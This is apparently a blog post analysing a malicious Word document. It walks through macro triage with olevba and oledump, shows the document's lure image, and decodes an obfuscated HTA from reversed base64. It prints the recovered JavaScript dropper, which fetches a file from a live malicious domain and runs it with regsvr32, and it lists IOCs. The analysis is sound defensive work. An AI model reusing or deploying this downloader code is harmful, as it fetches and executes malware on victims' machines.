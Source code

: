 Browsing through [AnyRun](https://app.any.run/tasks/3f121e8d-95d6-4c9f-90e2-bb57a4ddf697/), I found an interesting sample. 


Let's take a look at it.

If you don't have a copy of Office available, it's still easy to analyze with [OleTools](https://github.com/decalage2/oletools) and [CyberChef](https://gchq.github.io/CyberChef/). 

I always like to look inside the doc for any images. This helps me understand the lures used. CyberChef has a recipe to "Extract Files". You can use this to easily preview images. In this case, the image alone makes this *highly suspicious*. This is the traditional "This document was created in an earlier version of Word" lure.  


![18cad07a4fe5e160b924fb4818e3380e.png](../_posts/_resources/d9526c32abc848b597e66e2615191886.png)


Malicious Word documents typically do one of three things:

1. Execute macros
2. Link to a URL containing the malicious payload
3. Exploit Word itself, usually [CVE–2017–11882](https://blog.morphisec.com/microsoft-equation-editor-backdoor) 

Running `olevba -a ingresso.03.26.21.doc` performs triage analysis on the macro and highlights suspicious items. 

![648a2336d5d74ff831b7b742e17dd3b8.png](../_posts/_resources/5f24a20247d84cf7948244b0d9b71c69.png)

There are several things that stand out here that will guide our analysis. The macro:

1. Auto-executes on open
2. Creates a file
3. Executes a shell command
4. Contains encoded/obfuscated strings

To make understanding the macro code easier, I prefer to dump it out to a text file (`olevba ingresso.03.26.21.doc > macro.txt`) and open it up in Notepad++. I love Notepad++ for the language specific syntax coloring, and that selecting text will highlight it elsewhere in the document. These two things help a lot when deobfuscating scripts. 

I take a once over for the full macro, then focus in on one component I find most interesting. If you don't know where to start, the shell command is always a solid choice. 



![6f9193d37b7041b3fb47c3b8ab145ed1.png](../_posts/_resources/c5cb9f692a3040908c3e1e3840d87c3d.png)



What we can see here is that a `wscript.shell` object is stored in a variable called `documentViewTitle`. The `exec` [function](https://www.vbsedit.com/html/5593b353-ef4b-4c99-8ae1-f963bac48929.asp) of this object is then called with the arguments pulled from `ptrMem` and `WExceptionLink`, after using the `Replace()` function to remove the 1s used to obfuscate the code. Looking at these variables, they seem to source from some form object contained in the document. If we use the `oledump` tool, we can see this object.


![9bd3219588cd7345cb28fb79958f8631.png](../_posts/_resources/249176739ae042389500f2e49ed828bf.png)

If we select the appropriate streams, we see the command `c:\windows\explorer.exe c:\users\public\main.hta` come to light.


![a6898a7ea7b51b7543256fd913b14ecb.png](../_posts/_resources/7a0d96156ed2434ab552b1bde522c5a9.png)

Thinking back to our triage of the sample, this HTA file is likely the file that's created by the macro. Zeroing in on that code...



![3ee7508bf8e27fbdf56648d082c01463.png](../_posts/_resources/9380db033d3f4293a99640d326b16b92.png)


We can look up the documentation for the `CreateTextFile` [method](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createtextfile-method) and it tells us that the argument will be the filename, so `borderBorderEx` eventually deobfuscates to `main.hta`, but `queryProc` will be the contents of the file, and much more interesting. 

If we use Notepad++ to select the function `textboxTable` we can find the places it is called in the code, and analyze the contents of the second argument. The second argument to `textboxTable` is the contents of the HTA file. 


![9d44f30bd645a83a3e00fe2c93ae6954.png](../_posts/_resources/df31519e7eb34efd912ef21db61b3f17.png)

Let's follow `argumentExceptionButton` and see what its contents are.


![2c6b410657946e6282c9d47e5720bf9d.png](../_posts/_resources/c6656556ce9a4d74a4be68d974711a42.png)

Essentially, it's this huge word wrap of other variables concatenated. The variables are defined above, so we can do a find and replace - replacing the variable names with their content. Once you've finished with the tedious work, you'll see the HTA file contents. 


![fd36f4d06a247a2ffb08803d348ce962.png](../_posts/_resources/3f87bc7ed60845919527a7df8469cbd2.png)

Once you clean up this code a little, getting rid of the extraneous `+` and `"` symbols, you'll see a long string in the `<div>` tag. One of the things that immediately stands out is the character set and that it ends with an equals sign. Without taking the time to understand any of the decoding algorithm underneath, I have a strong suspicion that it's base64 encoded. Let's test in CyberChef. 


![8a013579e2ded609a263c08262e9c7ae.png](../_posts/_resources/5720f3a32c1c478895a2b0398523255e.png)

It definitely decodes properly, but it looks weird. Applying the "Reverse" recipe will put the characters in the correct order, resulting in the following code that will be executed by the HTA file.

```
new ActiveXObject("wscript.shell").run("regsvr32 c:\\users\\public\\collectionMemory.jpg");
var buttonPasteLeft = new ActiveXObject("scripting.filesystemobject");
try {
    buttonPasteLeft.deletefile("c:\\users\\public\\main.hta");
} catch(nextTrust) {}

var listboxTableRequest = new ActiveXObject("msxml2.xmlhttp");
listboxTableRequest.open("GET", "http://brown-craft-2018.com/fdvdd/sAyRdZ1iUxUFSEiaXlMxv4sYlMVcPX/Oz6qD6um7u2XDeRs0hvyB6/fFfWhs1ayr1Sp4kiHky8LFM/4Cr408QvrXy5Q9LFbjdzVx/naw15?id=bgZ5DeL6cVNx69&id=h6", false);
listboxTableRequest.send();
if (listboxTableRequest.status == 200)  {
    var documentRight = new ActiveXObject("adodb.stream");
    documentRight.open;
    documentRight.type = 1;
    documentRight.write(listboxTableRequest.responsebody);
    documentRight.savetofile("c:\\users\\public\\collectionMemory.jpg", 2);
    documentRight.close;
}
```

This HTA file will retrieve the remote file named `collectionMemory.jpg` and attempt to execute it with `regsvr32`. Unfortunately, by the time Any.Run or myself were able to get to it, it seems like this file no longer exists.


![9ea24f09d0b510a34031a3a537fba29d.png](../_posts/_resources/c324949225cb49aaa82ebafcd05456fb.png)


However, @reecDeep on [Twitter](https://twitter.com/reecdeep/status/1375385369462575106) reported a ***similar*** sample from a few days prior and the follow on payload was uploaded to [tria.ge](https://tria.ge/210326-g3jcevvnd6).


IOC Type|Value
---|------
filename|ingresso.03.26.21.doc
filename|c:\users\public\collectionMemory.jpg
filename|c:\users\public\main.hta
md5|ff39fc0c398db11d51982220d6b7b45c
sha256|d44d2da0f8cd163c6d36e4f71b35dcd21c76e639caff11cd94b005c6fad78ba5
domain|brown-craft-2018[.]com 
ip|45.150.67[.]40 






